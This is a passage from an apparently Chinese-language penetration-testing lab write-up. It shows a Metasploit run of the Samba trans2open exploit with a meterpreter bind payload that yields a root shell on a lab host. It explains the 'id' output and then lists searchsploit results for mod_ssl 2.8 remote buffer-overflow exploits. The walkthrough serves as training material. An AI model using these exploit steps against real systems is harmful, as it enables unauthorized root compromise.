 ```bash
msf6 exploit(linux/samba/trans2open) > set payload linux/x86/meterpreter/bind_tcp
payload => linux/x86/meterpreter/bind_tcp
msf6 exploit(linux/samba/trans2open) > run

[*] Started bind TCP handler against 192.168.85.156:4444
[*] 192.168.85.156:139 - Trying return address 0xbffffdfc...
[*] 192.168.85.156:139 - Trying return address 0xbffffcfc...
[*] 192.168.85.156:139 - Trying return address 0xbffffbfc...
[*] 192.168.85.156:139 - Trying return address 0xbffffafc...
[*] Sending stage (36 bytes) to 192.168.85.156
[*] 192.168.85.156:139 - Trying return address 0xbffff9fc...
[*] 192.168.85.156:139 - Trying return address 0xbffff8fc...
[*] 192.168.85.156:139 - Trying return address 0xbffff7fc...
[*] 192.168.85.156:139 - Trying return address 0xbffff6fc...
[*] 192.168.85.156:139 - Trying return address 0xbffff5fc...
[*] Command shell session 6 opened (192.168.85.154:38017 -> 192.168.85.156:4444) at 2024-09-16 12:44:21 -0400

id
uid=0(root) gid=0(root) groups=99(nobody)
```

拿到shell，并且为root权限

- **`uid=0(root)`**:
    - **UID** 是 "User Identifier" 的缩写，表示用户的唯一标识号。在类Unix操作系统中，UID 0 是超级用户（root）的标识。`uid=0(root)` 表示当前会话是以 root 用户身份运行的，root 是系统的最高权限用户，拥有完全的控制权。
- **`gid=0(root)`**:
    - **GID** 是 "Group Identifier" 的缩写，表示用户组的唯一标识号。GID 0 代表的是 root 用户组，通常只有 root 用户属于这个组。`gid=0(root)` 表示当前会话属于 root 用户组。
- **`groups=99(nobody)`**:
    - **groups** 显示的是用户所属的附加用户组。`99(nobody)` 表示该用户（即 root 用户）还被分配到了一个编号为 99 的用户组，通常称为 `nobody`。`nobody` 组在系统中一般用于处理没有明确用户的进程或任务。

## mod_ssl

在上面的端口开放情况和服务探测中扫描到了mod_ssl的具体版本为2.8.4

![image](https://github.com/user-attachments/assets/38dc483f-a277-4f81-9bcc-65c4cab21fc0)


搜索以下有啥洞没

```bash
┌──(root㉿kali)-[/home/kali/Desktop]
└─# searchsploit -s mod_ssl 2.8  
-------------------------------------------------------------- ---------------------------------
 Exploit Title                                                |  Path
-------------------------------------------------------------- ---------------------------------
Apache mod_ssl 2.8.x - Off-by-One HTAccess Buffer Overflow    | multiple/dos/21575.txt
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck.c' Remote Buffer O | unix/remote/21671.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer | unix/remote/47080.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer | unix/remote/764.c
-------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
